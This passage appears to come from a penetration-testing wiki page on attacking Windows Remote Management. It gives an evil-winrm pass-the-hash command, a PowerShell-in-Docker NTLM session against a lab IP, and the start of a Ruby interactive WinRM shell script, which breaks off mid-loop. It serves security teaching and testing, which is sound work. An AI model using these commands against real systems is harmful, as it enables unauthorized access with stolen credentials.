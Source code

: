 To use evil-winrm to connect to an **IPv6 address** create an entry inside _**/etc/hosts**_ setting a **domain name** to the IPv6 address and connect to that domain.

### Pass the hash with evil-winrm

```ruby
evil-winrm -u <username> -H <Hash> -i <IP>
```

![](<../.gitbook/assets/image (173).png>)

### Using a PS-docker machine

```
docker run -it quickbreach/powershell-ntlm
$creds = Get-Credential
Enter-PSSession -ComputerName 10.10.10.149 -Authentication Negotiate -Credential $creds
```

### Using a ruby script

Code extracted from here: [https://alamot.github.io/winrm\_shell/](https://alamot.github.io/winrm\_shell/)

```ruby
require 'winrm-fs'

# Author: Alamot
# To upload a file type: UPLOAD local_path remote_path
# e.g.: PS> UPLOAD myfile.txt C:\temp\myfile.txt


conn = WinRM::Connection.new( 
  endpoint: 'https://IP:PORT/wsman',
  transport: :ssl,
  user: 'username',
  password: 'password',
  :no_ssl_peer_verification => true
)


class String
  def tokenize
    self.
      split(/\s(?=(?:[^'"]|'[^']*'|"[^"]*")*$)/).
      select {|s| not s.empty? }.
      map {|s| s.gsub(/(^ +)|( +$)|(^["']+)|(["']+$)/,'')}
  end
end


command=""
file_manager = WinRM::FS::FileManager.new(conn)


conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
```